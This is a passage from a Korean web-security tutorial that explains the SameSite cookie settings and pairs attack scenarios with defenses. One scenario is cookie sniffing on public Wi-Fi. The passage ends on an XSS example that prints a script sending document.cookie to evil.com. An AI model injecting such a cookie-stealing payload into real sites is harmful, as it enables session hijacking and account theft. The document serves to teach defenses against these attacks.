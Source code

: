 #### **SameSite=Strict (가장 엄격)**

```javascript
document.cookie = "token=abc123; SameSite=Strict";
```

- 같은 사이트에서만 쿠키 전송
- CSRF 공격 완전 차단
- 외부 링크 클릭 시에도 쿠키 전송 안됨

#### **SameSite=Lax (적당히 엄격)**

```javascript
document.cookie = "token=abc123; SameSite=Lax";
```

- 일반적인 GET 요청에서는 쿠키 전송
- POST/PUT/DELETE 요청에서는 차단
- 사용성과 보안의 균형

#### **SameSite=None (제한 없음)**

```javascript
document.cookie = "token=abc123; SameSite=None; Secure";
```

- 모든 요청에서 쿠키 전송
- 반드시 Secure 속성과 함께 사용

## 🎯 실제 공격 시나리오와 방어

### **시나리오 1: 공용 와이파이에서의 쿠키 탈취**

**공격**:

```
1. 해커가 공용 와이파이 네트워크 모니터링
2. HTTP 사이트 접속 시 쿠키 패킷 캡처
3. 세션 토큰 획득 후 계정 탈취
```

**방어**:

```javascript
// ✅ Secure 속성으로 HTTPS에서만 전송
document.cookie = "sessionId=xyz789; Secure; path=/";
```

### **시나리오 2: XSS를 통한 쿠키 탈취**

**공격**:

```javascript
// 게시판에 악성 스크립트 삽입
<script>
  const cookies = document.cookie; fetch(`https://evil.com/steal?data=$
  {encodeURIComponent(cookies)}`);
</script>
```
